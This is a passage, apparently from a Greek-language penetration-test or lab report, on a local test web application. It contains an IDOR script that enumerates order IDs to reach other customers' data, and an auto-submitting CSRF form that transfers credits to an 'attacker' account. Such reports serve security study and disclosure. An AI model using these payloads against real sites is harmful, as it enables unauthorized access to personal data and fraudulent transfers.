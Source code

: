 **Python Script για Αυτοματοποίηση**:
```python
import requests

session = requests.Session()
# Login first
session.post('http://localhost:8000/login/', 
             data={'username': 'testuser', 'password': 'password'})

# Try different order IDs
for i in range(100):
    order_id = f"ORD-TEST{i:02d}-DEMO{i:02d}"
    response = session.get(f'http://localhost:8000/order/{order_id}/')
    if response.status_code == 200:
        print(f"[+] Found accessible order: {order_id}")
```

#### 4.4.3 Δεδομένα που Εκτέθηκαν

- Προσωπικά στοιχεία πελατών
- Διευθύνσεις αποστολής
- Τηλέφωνα επικοινωνίας
- Ιστορικό παραγγελιών
- Συνολικά ποσά αγορών

---

### 4.5 Cross-Site Request Forgery (CSRF) - Υψηλή Ευπάθεια

#### 4.5.1 Περιγραφή

Τα endpoints για μεταφορά πιστώσεων και αλλαγή email δεν έχουν προστασία CSRF.

#### 4.5.2 Ευάλωτα Endpoints

- `/transfer-credits/` - Μεταφορά χρημάτων
- `/update-email/` - Αλλαγή email

**[ΟΔΗΓΙΕΣ SCREENSHOT 10]**
```
Τίτλος: CSRF Attack Demonstration
Βήματα:
1. Login στην εφαρμογή ως θύμα
2. Δημιουργήστε αρχείο csrf_attack.html:

<html>
<body onload="document.forms[0].submit()">
<form action="http://localhost:8000/transfer-credits/" method="POST">
    <input type="hidden" name="recipient" value="attacker">
    <input type="hidden" name="amount" value="999.99">
</form>
</body>
</html>

3. Ανοίξτε το αρχείο ενώ είστε logged in
4. Screenshot του success message για τη μεταφορά
5. Screenshot του /profile/ που δείχνει τη μεταφορά
```
